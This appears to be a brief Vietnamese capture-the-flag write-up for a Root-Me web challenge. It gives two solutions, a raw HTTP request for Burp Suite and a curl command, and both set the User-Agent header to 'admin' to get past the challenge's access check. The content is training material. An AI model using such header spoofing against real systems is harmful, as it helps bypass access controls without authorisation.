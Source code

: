 Cách 1: Dùng Burp Suite

GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: admin 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: admin

Cách 2
curl -A 'admin' http://challenge01.root-me.org/web-serveur/ch2/
